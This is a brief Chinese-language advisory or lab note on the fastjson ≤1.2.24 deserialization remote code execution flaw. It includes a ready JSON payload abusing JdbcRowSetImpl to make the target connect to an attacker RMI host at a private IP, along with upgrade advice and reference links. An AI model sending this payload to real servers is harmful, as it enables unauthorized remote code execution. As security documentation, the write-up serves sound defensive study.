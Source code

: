 ### 一 漏洞描述
fastjson是一款用Java语言编写的高性能功能完善的JSON库。由于其独特的算法，fastjson的parse速度极快，超越了所有json库，包括曾经号称最快的jackson以及Google的二进制协议protocol buf。fastjson还是官方收录的参考实现之一，完全支持http://json.org的标准。除此之外，fastjson还支持各种JDK类型包括JavaBean，Map,Enum,泛型等，而且不需要额外的jar，能够直接跑在JDK上。Fastjson支持JDK 5， JDK 6，Android,阿里云手机等环境。

fastjson <= 1.2.24

Fastjson 1.2.25之前版本的parseObject存在安全漏洞。远程攻击者可通过发送特制的JSON请求利用该漏洞执行任意代码。


### 二 漏洞利用
使用fastjson解析: 
```
{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.198.1:5555/poc1",
        "autoCommit":true
}
```

可替换json数据为payload，或尝试直接打POST

### 三 漏洞修复
升级并开启safeMode或不用fastjson

### 四 漏洞分析
![img.png](img.png)

> 参考链接  
> 绿盟: http://blog.nsfocus.net/analysis-protection-fastjson-remote-code-execution-vulnerability/  
> 官方公告: https://github.com/alibaba/fastjson/wiki/security_update_20170315  
> 阿里云: https://avd.aliyun.com/detail?id=AVD-2017-18349
> 分析: https://www.cnblogs.com/huim/p/16566911.html

